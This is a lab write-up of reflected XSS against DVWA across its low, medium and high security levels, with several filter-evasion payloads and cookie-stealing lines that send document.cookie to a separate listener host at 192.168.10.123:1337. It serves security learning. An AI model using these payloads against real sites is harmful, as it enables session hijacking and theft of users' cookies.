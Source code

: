 ```yaml
---
title: "Reflected XSS"
date: 2024-12-24T16:06:04+01:00
draft: false
tags: ["DVWA", "Firefox", "Proxy", "Security"]
categories: ["Web"]
description: "A practical guide to exploiting Reflected Cross-Site Scripting (XSS) vulnerabilities in DVWA. Learn how attackers inject malicious scripts via URLs, bypass input filters at different security levels, and use payloads to steal cookies or execute arbitrary JavaScript. Includes hands-on examples, screenshots, and references for further learning."
---
```


Reflected XSS is an injection attack where malicious scripts are sent to a vulnerable web server (often via URLs), and the server immediately includes (reflects) those scripts unsanitized in the HTML response back to the victim's browser, which then executes them. It relies on the server reflecting user input directly into the response page.

Examples:
```
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```
```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
```
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
```
```
<IMG SRC=# onmouseover="alert('xxs')">
```
```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.

Low:

```
<script>alert(document.cookie)</script>
```

![1](1.png)

```
192.168.10.123/dvwa/vulnerabilities/xss_r/?name=<script>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>
```

![2](2.png)

Medium:

The developer has tried to add a simple pattern matching to remove any references to "script, to disable any JavaScript.

```
<IMG SRC=# onmouseover="alert(document.cookie">
```
![3](3.png)

```
<sc<script>ript>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>
```

![4](4.png)


High:

```
<IMG SRC=# onmouseover=window.location='http://192.168.10.123:1337/?cookie=' + document.cookie> 
```	
This didn't show cookie.

![5](5.png)

References:

https://owasp.org/www-community/attacks/xss/ 

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

https://en.wikipedia.org/wiki/Cross-site_scripting

https://www.cgisecurity.com/xss-faq.html

https://www.scriptalert1.com/

https://portswigger.net/web-security/cross-site-scripting/reflected